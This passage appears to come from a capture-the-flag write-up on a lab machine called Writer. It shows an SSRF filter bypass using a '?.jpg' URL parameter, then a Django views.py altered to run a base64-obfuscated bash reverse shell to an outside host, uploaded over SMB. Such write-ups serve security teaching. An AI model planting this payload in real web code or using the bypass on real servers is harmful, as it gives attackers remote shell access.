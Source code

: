 ```

from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)

```

### Exploit

#### Strategy

If I modify this code and put it back, then somehow manage to load the page, I’ll get execution. There are two steps here. First I need to create a payload that works, and then I need to make sure I have an SSRF that can trigger it.

#### SSRF

The SSRF in the main Writer site comes from giving it a image url:

![image-20211202140640007](https://0xdfimages.gitlab.io/img/image-20211202140640007.png)

There’s a lot of annoying client-side filtering, so I’ll put in 0xdf.com and submit it, and then get that request and send it over to Repeater.

I remember from the original source that it only goes the path of the SSRF if `.jpg` is in the url. But I also need the url to hit the `/` of v2. I can achieve this using `.jpg` as a parameter, `http://127.0.0.1:8080/?.jpg`. An anchor point (`/#.jpg`) would work as well.

#### Payload

My new `views.py` uses the same reverse shell I used above for root:

```

from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)

```

#### Trigger

I’ll upload this modified `views.py` using `smbclient`:

```

smb: \writer_web\> put views.py 
putting file views.py as \writer_web\views.py (4.1 kb/s) (average 4.0 kb/s)

```
